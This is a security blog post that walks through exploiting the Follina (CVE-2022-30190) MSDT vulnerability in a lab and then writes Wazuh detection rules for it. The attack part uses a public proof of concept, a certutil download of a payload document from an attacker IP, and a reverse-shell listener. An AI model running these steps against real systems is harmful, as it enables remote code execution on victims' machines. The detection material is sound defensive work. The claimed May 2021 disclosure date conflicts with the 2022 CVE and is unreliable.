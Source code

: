 ```yaml
---
title: "Exploiting & Detecting MSDT Follina Vulnerability"
description: "Exploiting Zero-Day MSDT Follina vulnerability and creating detection rules with Wazuh"
dateString: Jan 2023
draft: false
tags: ["Wazuh", "IDS", "Follina", "Exploit", "Incident Response"]
weight: 106
cover:
    image: "/blog/follina/follz.jpg"
---
```


# Introduction

As an Incident Responder, dealing with a zero day exploit in your IT environment is one of those things you would not wish on your worst enemy. First disclosed in May 2021, the Follina exploit is a remote code execution (RCE) vulnerability that affects Microsoft Diagnostic Tool (MSDT) and dubbed CVE-2022–30190. MSDT is a standard component in Windows Operating System and Follina can be exploited when MSDT is called using the URL protocol from an application like Microsoft Word. One of the reasons the exploit is devastating is because it affects all Microsoft Office versions and does not require macros to perform the attack. This is a massive advantage to adversaries and a nightmare for Blue teamers.

# How it works

An adversary creates a malicious MS Office document and delivers it the victim through phishing techniques i.e sending an email with a malicious document attached to it. This can be paired with some social engineering tactic to create a sense of urgency for the victim to open the email.

The malicious file contains a link to an HTML file which contains JavaScript code that executes malicious code in the command line via MSDT. In the event of a successful exploitation, the malicious actor can install programs, view, modify or delete data, or create new accounts etc.

To successfully demonstrate this exploit, I set up an environment with Kali Linux VM (attacker VM) and Windows 10/11 with Microsoft Office installed as the victim VM.

![](/blog/follina/setup.jpg)

# Steps to follow:

1. Download and install MS Office Suite on your victim machine from https://www.microsoft.com/en-us/download/confirmation.aspx?id=49117 . Extract the setup.exe and install it from command prompt using the command ```setup.exe /configure configuration-Office2021.xml```

![](/blog/follina/office.jpg)
![](/blog/follina/office2.jpg)

2. On the attack machine, download the follina POC from https://github.com/JohnHammond/msdt-follina and clone the repository to a folder named msdt-follina on the Desktop.

![](/blog/follina/attack1.jpg)


3. Run the command ```sudo python3 follina.py``` to create a payload follina.doc and serve it on port 8000. This will enable you to download the doc file on the victim machine.

![](/blog/follina/attack2.jpg)

4. On the victim machine, run the command ```certutil –urlcache –split –f http://192.168.11.85:8888/follina.doc``` to download the doc file onto the victim machine. Note that you should replace the IP (192.168.11.85) with your own attacker IP.

![](/blog/follina/certutil.jpg)

5. Once the file is downloaded on the victim machine, fire up the netcat listener on the attacking machine using the command ```sudo python3 follina.py –r 1337```. The listener will await connection on port 1337.

6. On the victim machine, open the document and this will spawn a shell on the attacking machine as shown below.

![](/blog/follina/shell.jpg)

# Detecting the attack on Wazuh

[Wazuh](https://wazuh.com/) is a free and open source security platform that unifies XDR and SIEM capabilities. It consists of security agents deployed to monitor endpoints and the central Server (Manager) that collects and analyzes data gathered by the agents.

To detect the attack, the victim machine has to meet the following requirements:

1. Wazuh Agent installed on the endpoint which pushes logs to the Wazuh Manager
2. Sysmon from Sysinternals Suite installed and active on the endpoint. It enables process-level logging on the host.
3. To set up a Wazuh Manager, follow the steps outlined [here](https://documentation.wazuh.com/current/quickstart.html).

# Understanding the Logs

Effective monitoring and detection are highly dependent on what the system logs present to an analyst. The logs to focus on in this particular attack will be process logs since we know that the attack is triggered by a Microsoft Office application spawning a new process. The goal is to create a rule that will accomplish two things:

1. Detect when a Microsoft application attempts to spawn a new process
2. Match any pattern in the command that relates to the exploitation of the follina vulnerability

The reason for creating such a two-part rule is to boost confidence in the detection and the alert level. This will also complement Wazuh’s ability to use a database of Common Vulnerabilities and Exposures (CVE) created automatically by processing data pulled from various sources.

Adding the following rules to the local Wazuh rule file on the Wazuh manager will flag any MS Office process creation activity as well MSDT execution.

```
<group name="follina, attack,">

  <rule id="110002" level="12">
    <if_sid>61603</if_sid>
    <field name="win.eventdata.parentImage">winword\.exe$|excel\.exe$|powerpnt\.exe$|outlook\.exe$|msaccess\.exe$|lync\.exe$|mspub\.exe$|onenote\.exe$</field>
    <description>Possible Follina (CVE-2022-30190) exploitation attempt detected. New process created by a Microsoft Office application.</description>
    <mitre>
      <id>T1203</id>
    </mitre>
  </rule>
  
  <rule id="110003" level="15">
    <if_sid>110002</if_sid>
    <field name="win.eventdata.originalFileName" type="pcre2">^msdt\.exe$</field>
    <field name="win.eventdata.commandLine" type="pcre2">ms-msdt:(/|-)id.*(PCWDiagnostic|IT_RebrowseForFile|IT_LaunchMethod|SelectProgram)</field>
    <description>Follina (CVE-2022-30190) exploitation attempt detected. MSDT executed with known Follina exploitation pattern.</description>
    <mitre>
      <id>T1203</id>
    </mitre>
  </rule>

</group>
```

The XML can be located at ```/var/ossec/etc/rules/local_rules.xml```

Save the file and restart Wazuh services with the command ```systemctl restart wazuh-manager```

![](/blog/follina/detection.jpg)

The effectiveness of the rule is confirmed by the above alert which gives the exact description of the vulnerability as well as the confidence level (15) as stipulated in the rule.

Further, the rule id on the alert shown below matches that of the custom rule we created earlier.

![](/blog/follina/rule.jpg)

# Conclusion
In summary, this article has explained how to exploit and detect CVE-2022–30190 aka Follina vulnerability which was made possible using a custom rule that would be triggered whenever a Microsoft Office application tries to spawn a new process.

Thanks for reading and happy learning 😀